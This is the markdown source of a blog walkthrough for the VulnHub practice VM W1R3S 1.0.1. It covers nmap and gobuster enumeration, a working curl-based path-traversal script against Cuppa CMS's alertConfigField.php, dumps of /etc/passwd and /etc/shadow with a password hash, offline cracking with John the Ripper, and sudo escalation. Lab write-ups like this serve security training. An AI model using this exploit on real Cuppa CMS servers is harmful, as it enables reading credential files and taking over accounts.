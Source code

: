 ```yaml
---
layout: post
last_modified_at: 2018-08-05 00:05:06 +0000
title: "W1R3S: 1.0.1 Walkthrough"
subtitle: "Ghost in the Wires"
category: Walkthrough
tags: [VulnHub, W1R3S]
comments: true
image:
  feature: w1r3s-1.0.1-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/halloween-ghosts-happy-halloween-1746354/
---
```


This post documents the complete walkthrough of W1R3S: 1.0.1, a boot2root [VM][1] created by SpecterWires, and hosted at [VulnHub][2]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## Background

Someone hires you to do a penetration test on the W1R3S.inc individual server and report all findings. They ask you to gain `root` access and find the flag (located in `/root` directory).

## Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.100.130
...
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 11:21 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 11:25 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28 16:53 new-employees
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|_  256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
```

As usual, let's go with directory/file enumeration on the web service and see what we get.

## Directory/File Enumeration

I like to use `gobuster` with one of the big directory wordlists.

```
Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.100.130/
[+] Threads      : 10
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded     : true
=====================================================
http://192.168.100.130/administrator (Status: 301)
http://192.168.100.130/javascript (Status: 301)
http://192.168.100.130/wordpress (Status: 301)
=====================================================
```

OK. We find two interesting directories: `administrator` and `wordpress`.

## Cuppa CMS

The `administrator` directory turns out to be the installation setup for Cuppa CMS. This is how it looks like when I point the browser to `/administrator`.

![screenshot-1](/assets/images/posts/w1r3s-1.0.1-walkthrough/screenshot-1.png)

According to the official [documentation](https://www.cuppacms.com/en/docs/installation), in order for the installation to complete, it will have to create the database first.

>Remember, the database should be created before to install Cuppa CMS.

The Cuppa CMS installation was never completed in the first place or I'll not be seeing the setup page. I downloaded a [copy](http://cuppacms.com/files/cuppa_cms.zip) of the Cuppa CMS code to see if I can discover any vulnerabilities.

I'm not sure if this is a new vulnerability but it's a pleasant surprise to find an LFI vulnerability in `alertConfigField.php` at line 77.

![screenshot-2](/assets/images/posts/w1r3s-1.0.1-walkthrough/screenshot-2.png)

To test it, I wrote `cat.sh`, a simple script that will display any file as long as there's permission to do so.

<div class="filename"><span>cat.sh</span></div>
```bash
#!/bin/bash

_HOST=192.168.100.130
_PATH=administrator/alerts/alertConfigField.php
_PARM=urlConfig
_TRAV=../../../../../../../..

curl -s --data-urlencode "${_PARM}=${_TRAV}$1" $_HOST/$_PATH \
| sed -r 's/^ {8}//' \
| sed '71,$!d' \
| sed '$d' \
| sed '$d'
```

Let's give it a shot and see what we get.

```
# ./cat.sh /etc/passwd
...
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:122:129:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:123:130:MySQL Server,,,:/nonexistent:/bin/false
```
Imagine my surprise when I request for `/etc/shadow` and it shows up in the output.

```
# ./cat.sh /etc/shadow
...
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
sshd:*:17554:0:99999:7:::
ftp:*:17554:0:99999:7:::
mysql:!:17554:0:99999:7:::
```

I'm not sure if `/etc/shadow` is intentionally made world-readable; it should not be the case.

## John the Ripper

With both `passwd` and `shadow` available, I can `unshadow` them, and send them to `john` for offline cracking with a wordlist like "rockyou".

The cracking completes in seconds.

```
# john --format=crypt --show hashes.txt
w1r3s:computer:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
```

I can now log in to the box via SSH with the cracked password.

![screenshot-3](/assets/images/posts/w1r3s-1.0.1-walkthrough/screenshot-3.png)

## Privilege Escalation

It isn't long before I see that `w1r3s` is on the `sudoers` list.

![screenshot-4](/assets/images/posts/w1r3s-1.0.1-walkthrough/screenshot-4.png)

Becoming `root` is another command away.

![screenshot-5](/assets/images/posts/w1r3s-1.0.1-walkthrough/screenshot-5.png)

:dancer:

## Afterthought

To be honest, I didn't even bother with WordPress. :stuck_out_tongue_winking_eye:

[1]: https://www.vulnhub.com/entry/w1r3s-101,220/
[2]: https://www.vulnhub.com

*[LFI]: Local File Inclusion

